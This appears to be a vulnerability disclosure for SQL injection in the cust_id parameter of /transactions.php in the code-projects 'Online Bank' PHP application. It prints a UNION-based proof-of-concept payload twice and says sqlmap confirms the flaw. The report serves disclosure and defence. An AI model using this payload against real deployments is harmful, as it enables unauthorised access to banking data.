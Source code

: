 # Summary
There is a sql injection vulnerability in code-project Online Bank (https://code-projects.org/online-bank-in-php-css-javascript-and-mysql-free-download/).

Affected component is `/transactions.php`.

# Details
First, login as **ADMIN**.

In `/transactions.php?cust_id=1`,
parameter `cust_id` is vulnerable to sql injection, 
![image](https://github.com/user-attachments/assets/c8a2c330-1ccf-42d5-aa46-8fe286cfd82b)

PoC:
```
/transactions.php?cust_id=1 UNION ALL SELECT CONCAT(CONCAT('qzbkq','eJuZjXkjfbsVDhPzzMltlPckaZBgiZDLFShbjjuR'),'qpkxq'),NULL,NULL,NULL,NULL,NULL-- DdGj
```
![image](https://github.com/user-attachments/assets/2abe05da-6bd0-4926-be67-92ffbb3b99ff)


we can use `sqlmap` to test:
![image](https://github.com/user-attachments/assets/4ff024f0-3601-4036-8b3b-dfce893ae959)




Audit the code, in `transactions.php`, there is no filter for `$_GET['cust_id']`:
![image](https://github.com/user-attachments/assets/83fb5ba1-4762-494a-954d-a283f431b7a0)


and these parameters are directly spliced into `$sql0`, which leads to sql injection vulnerability.



# PoC
```
/transactions.php?cust_id=1 UNION ALL SELECT CONCAT(CONCAT('qzbkq','eJuZjXkjfbsVDhPzzMltlPckaZBgiZDLFShbjjuR'),'qpkxq'),NULL,NULL,NULL,NULL,NULL-- DdGj
```
![image](https://github.com/user-attachments/assets/2abe05da-6bd0-4926-be67-92ffbb3b99ff)

![image](https://github.com/user-attachments/assets/4ff024f0-3601-4036-8b3b-dfce893ae959)

